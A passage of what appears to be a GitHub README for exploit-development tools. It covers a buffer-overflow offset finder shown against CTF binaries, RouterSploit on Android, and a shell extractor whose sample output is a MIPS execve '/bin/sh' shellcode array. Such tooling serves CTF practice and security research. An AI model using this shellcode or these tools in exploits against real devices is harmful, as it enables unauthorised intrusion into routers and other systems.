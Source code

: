 * Other examples
    * 32-bit program, without PIE, with `leave` instruction.
        * `python getOverFlowOffset.py 0x080484BD example_bin/xdctf15-pwn200`
    * 32-bit program, with PIE, with `leave` instruction.
        * `python getOverFlowOffset.py 0x00000632 example_bin/pwn200_PIE`
    * 64-bit program, with PIE, with `leave` instruction.
        * `python getOverFlowOffset.py 0x00000632 example_bin/pwn200_PIE_64bits`
    * 32-bit program, without PIE, without `leave` instruction.
        * `python getOverFlowOffset.py 0x400434 example_bin/2018_xnuca_gets_noleave `

### Android_routersploit

Setup the RouterSploit on Android based on termux.  [Procedure](https://github.com/desword/shellcode_tools/tree/master/Android_routersploit) 

<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

### patternLocOffset.py


For generating a string to  calculate the offset of RA. 
From the book <揭秘家用路由器0day漏洞挖掘技术>

### shell_extractor.py

In traditional, we need to find the corresponding shellcode using IDA pro. For example, 

![](https://p4.ssl.qhimg.com/t01d815b0c57399c2de.png)

Then we copy the binary and reconstruct them into the following formats:

![](https://p3.ssl.qhimg.com/t0188a9ffa755bb99ab.png)

We can find that there are lots of work for the above purpose. Therefore, I have developed a simple tool to extract the shellcode in binary form automatically from the ELF. 
With the following simple instructions, we can extract the shellcode in binary form conveniently for C testing or python testing. 


```python
   $ python shell_extractor.py execve c
   char shellcode[] = {
   "\x24\x06\x06\x66"
   "\x04\xd0\xff\xff"
   "\x28\x06\xff\xff"
   "\x27\xbd\xff\xe0"
   "\x27\xe4\x10\x01"
   "\x24\x84\xf0\x1f"
   "\xaf\xa4\xff\xe8"
   "\xaf\xa0\xff\xec"
   "\x27\xa5\xff\xe8"
   "\x24\x02\x0f\xab"
   "\x00\x00\x00\x0c"
   "\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x00"
   };
```
